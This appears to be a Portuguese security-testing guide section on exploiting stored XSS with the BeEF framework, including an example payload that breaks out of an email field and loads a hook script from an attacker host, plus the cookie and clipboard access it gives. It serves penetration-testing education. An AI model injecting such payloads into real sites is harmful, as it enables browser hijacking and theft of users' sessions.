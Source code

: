 ```md
#### Alavancando o XSS Armazenado com o BeEF

O XSS armazenado pode ser explorado por frameworks avançados de exploração JavaScript, como o [BeEF](https://www.beefproject.com) e [XSS Proxy](http://xss-proxy.sourceforge.net/).

Um cenário típico de exploração do BeEF envolve:

- Injetar um gancho JavaScript que se comunica com o framework de exploração do navegador do atacante (BeEF)
- Aguardar o usuário da aplicação visualizar a página vulnerável onde a entrada armazenada é exibida
- Controlar o navegador do usuário da aplicação por meio do console BeEF

O gancho JavaScript pode ser injetado explorando a vulnerabilidade XSS na aplicação web.

**Exemplo**: Injeção do BeEF em `index2.php`:

```html
aaa@aa.com"><script src=http://attackersite/hook.js></script>
```

Quando o usuário carrega a página `index2.php`, o script `hook.js` é executado pelo navegador. É então possível acessar cookies, capturas de tela do usuário, área de transferência do usuário e iniciar ataques XSS complexos.

> ![Exemplo de Injeção do BeEF](images/RubyBeef.png)\
> *Figura 4.7.2-3: Exemplo de Injeção do BeEF*
>
> Este ataque é particularmente eficaz em páginas vulneráveis visualizadas por muitos usuários com diferentes privilégios.
